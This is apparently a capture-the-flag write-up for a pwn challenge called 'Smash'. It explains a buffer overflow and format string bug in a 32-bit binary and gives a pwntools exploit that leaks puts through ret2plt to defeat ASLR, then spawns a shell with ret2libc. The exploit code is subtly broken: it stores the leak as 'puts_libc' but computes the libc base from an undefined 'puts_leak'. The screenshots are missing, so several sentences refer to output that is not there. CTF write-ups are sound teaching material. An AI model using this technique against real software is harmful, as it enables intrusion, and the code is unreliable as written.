




# Smash
Smash was a very cool challenge where you were given the `libc` version used by the binary. You had to bypass ASLR and then execute a ret2libc attack.

## Analysis
As per usual, run a quick `checksec`:



Luckily for us, PIE is disabled and there is no canary. That makes our job much easier.<br>

Let's run it and see what happens.



Hmm, our input is printed back to us again. Is there another format string bug?



Indeed there is! Is a BoF possible this time?



Awesome.<br>

There's nothing particularly interesting in the decompilation - `main` takes input and calls `say_hello`, which prints back to you.


No interesting strings either. As we are given the `libc`, everything points to a good old ret2libc attack.

## Exploitation
As we only had one input, the logical approach would be to use a ret2plt to leak the address of puts in `libc` from the [global offset table](https://github.com/ir0nstone/pwn-notes/blob/master/concepts/plt_and_got.md) and call main again to let us have another input.

```python
from pwn import *

elf = context.binary = ELF('./hello')

# Adapt for remote
if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = remote('chall.csivit.com', 30046)
else:
    libc = elf.libc
    p = elf.process()


# ret2plt
p.clean(1)

payload = flat(
    b'A' * 136,
    elf.plt['puts'],
    elf.symbols['main'],        # 32-bit - return address comes directly after the function call
    elf.got['puts']             # Parameter comes after the return address
)

p.sendline(payload)

p.recvline()                    # This is the 'Hello, <>!' string - we don't need this

puts_libc = u32(p.recv(4))      # The puts call. We only need the first 4 bytes (the GOT entry of puts)
log.success(f'Puts@LIBC: {hex(puts_libc)}')

libc.address = puts_leak - libc.symbols['puts']
log.success(f'Libc base: {hex(libc.address)}')

p.clean(1)

# Final ret2libc
payload = flat(
    b'A' * 136,
    libc.symbols['system'],
    libc.symbols['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)
p.interactive()
```
